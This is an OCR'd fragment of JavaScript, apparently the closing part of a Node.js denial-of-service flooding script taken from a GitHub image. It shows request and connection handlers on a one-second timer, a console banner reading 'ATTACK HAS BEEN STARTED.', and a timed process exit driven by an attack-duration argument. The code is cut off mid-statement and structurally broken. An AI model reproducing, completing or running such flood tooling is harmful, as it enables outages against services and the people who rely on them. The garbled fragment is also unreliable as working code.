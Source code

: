                     .on("response", response => {
                        request.close();
                        request.destroy();
                        return
                    });
    
                    request.end();
                }
            }, 1000); 
         });
 
         client.on("close", () => {
             client.destroy();
             connection.destroy();
             return
         });
     }),function (error, response, body) {
		};
 }
 console.log(customGradient(`ATTACK HAS BEEN STARTED.`));
 const KillScript = () => process.exit(1);
 setTimeout(KillScript, args.time * 1000);
